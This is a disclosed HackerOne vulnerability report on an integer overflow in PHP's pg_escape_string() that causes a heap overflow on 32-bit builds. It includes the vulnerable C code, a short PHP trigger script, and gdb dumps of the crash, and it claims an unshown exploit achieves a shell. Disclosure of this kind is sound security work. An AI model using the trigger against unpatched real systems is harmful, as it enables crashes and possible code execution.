 # Heap overflow due to integer overflow in pg_escape_string() function

## Report Details
- **Report ID**: 180584
- **URL**: https://hackerone.com/reports/180584
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-11-07T07:34:11.572Z
- **Disclosed**: 2019-11-12T09:22:02.796Z

## Reporter
- **Username**: fosec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
The fix for this bug has been committed: https://bugs.php.net/bug.php?id=73399
Description:
------------
I have found some vulnerable code at `pg_escape_string()` function in module PostgreSQL. `pg_escape_string()` function creates a new zend_string object to store escaped string. The size of destination string depends on the size of source string. ( refer at `ext/pgsql/pgsql.c:4384` )

``` c
PHP_FUNCTION(pg_escape_string)
{
...
    zend_string *from = NULL, *to = NULL;
   
....
	to = zend_string_alloc(ZSTR_LEN(from) * 2, 0);
...
}
```

If length of `from` string is equal to PHP_INT_MAX, new string `to` will have an unexpected length. Due to missing check of size before calling
`zend_string_alloc()`, this new memory range can not use to store large data and lead to heap overflow. I can overwrite other objects of PHP in memory. This bug is only triggered in 32bit machine.

Solution:
It should be `zend_string_alloc_safe` instead of `zend_string_alloc`. 

Test script:
---------------
``` php
<?php
ini_set('memory_limit', -1);
$s = str_repeat("a",0x7FFFFFFF);
$escaped = pg_escape_string($s);
?>
```
Actual result:
--------------
Open php program in gdb and run test script, set a breakpoint at line in file `ext/pgsql/pgsql.c:4384`.
When debugger stops, we have the length of `from` string is 0x7fffffff. The size which is used as parameter in `_emalloc()` function is equal to `((0x7fffffff * 2 + 0x14 ) & 0xfffffffc)`. Due to integer overflow, new size is 0x10. The new memory region is too small to store a large string! 
```
 [----------------------------------registers-----------------------------------]
EAX: 0x36e00000 --> 0x2 
EBX: 0x8903068 --> 0x1 
ECX: 0x10 
EDX: 0xbfffc0d8 --> 0x36e00000 --> 0x2 
ESI: 0xb72130a0 --> 0x0 
EDI: 0xfffffffe 
EBP: 0x0 
ESP: 0xbfffc0b0 --> 0x1 
EIP: 0x81dfa4d (<zif_pg_escape_string+93>:	call   0x8312c90 <_emalloc>)
EFLAGS: 0x200202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x81dfa45 <zif_pg_escape_string+85>:	add    edi,edi
   0x81dfa47 <zif_pg_escape_string+87>:	lea    ecx,[edi+0x14]
   0x81dfa4a <zif_pg_escape_string+90>:	and    ecx,0xfffffffc
=> 0x81dfa4d <zif_pg_escape_string+93>:	call   0x8312c90 <_emalloc>
   0x81dfa52 <zif_pg_escape_string+98>:	test   ebp,ebp
   0x81dfa54 <zif_pg_escape_string+100>:	mov    ebx,eax
   0x81dfa56 <zif_pg_escape_string+102>:	mov    DWORD PTR [eax],0x1
   0x81dfa5c <zif_pg_escape_string+108>:	mov    DWORD PTR [eax+0x4],0x6
No argument
[------------------------------------stack-------------------------------------]
0000| 0xbfffc0b0 --> 0x1 
0004| 0xbfffc0b4 --> 0x84a3ac9 --> 0x69760053 ('a' <repeats 200 times>...)
0008| 0xbfffc0b8 --> 0xbfffc0d8 --> 0x36e00000 --> 0x2 
0012| 0xbfffc0bc --> 0xbfffc0dc --> 0x7fffffff ('a' <repeats 200 times>...)
0016| 0xbfffc0c0 --> 0x89b2db0 --> 0xb7d68450 --> 0x89b3030 --> 0x0 
0020| 0xbfffc0c4 --> 0x7fffffff ('a' <repeats 200 times>...)
0024| 0xbfffc0c8 --> 0x36e00000 --> 0x2 
0028| 0xbfffc0cc --> 0xb725f3a8 --> 0x1 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x081dfa4d	122		zend_string *ret = (zend_string *)pemalloc(ZEND_MM_ALIGNED_SIZE(_ZSTR_STRUCT_SIZE(len)), persistent);
gdb-peda$ 
```

if we continue running, other memory region will be overwritten until SIGSEGV!
```
[----------------------------------registers-----------------------------------]
EAX: 0x61 ('a')
EBX: 0xb7f8b000 --> 0x2ae9c 
ECX: 0x0 
EDX: 0xb7400000 
ESI: 0x36f96fb1 ('a' <repeats 200 times>...)
EDI: 0x7fe6905f ('a' <repeats 200 times>...)
EBP: 0xb7400001 
ESP: 0xbfffc040 --> 0xbfffc090 --> 0x0 
EIP: 0xb7f6d287 (<PQescapeStringInternal+119>:	mov    BYTE PTR [edx],al)
EFLAGS: 0x210206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xb7f6d27e <PQescapeStringInternal+110>:	mov    BYTE PTR [ebp+0x0],al
   0xb7f6d281 <PQescapeStringInternal+113>:	lea    ebp,[edx+0x1]
   0xb7f6d284 <PQescapeStringInternal+116>:	add    esi,0x1
=> 0xb7f6d287 <PQescapeStringInternal+119>:	mov    BYTE PTR [edx],al
   0xb7f6d289 <PQescapeStringInternal+121>:	sub    edi,0x1
   0xb7f6d28c <PQescapeStringInternal+124>:	test   edi,edi
   0xb7f6d28e <PQescapeStringInternal+126>:	je     0xb7f6d297 <PQescapeStringInternal+135>
   0xb7f6d290 <PQescapeStringInternal+128>:	movzx  eax,BYTE PTR [esi]
[------------------------------------stack-------------------------------------]
0000| 0xbfffc040 --> 0xbfffc090 --> 0x0 
0004| 0xbfffc044 --> 0xb7fed6cd (<_dl_fixup+205>:	sub    esp,0x14)
0008| 0xbfffc048 --> 0xb7fffab0 --> 0xb7fffa54 --> 0xb754496c --> 0xb7fff8f8 --> 0x0 
0012| 0xbfffc04c --> 0x0 
0016| 0xbfffc050 --> 0x1 
0020| 0xbfffc054 --> 0x0 
0024| 0xbfffc058 --> 0xb7269060 ('a' <repeats 200 times>...)
0028| 0xbfffc05c --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xb7f6d287 in PQescapeStringInternal () from /lib/libpq.so.5
gdb-peda$ 
```
I can leak memory to bypass ASLR + DEP and control eip register to the arbitrary value. Finally, the overflow results as arbitrary code execution. I use PHP-7.1 (at https://github.com/php/php-src, commit 931ea5c872a0a4455c5bbb8470c7a1d049bd8501), run the attachment at local machine and get `/bin/sh`

## Attachments
- pg_escape_string_exploit.php
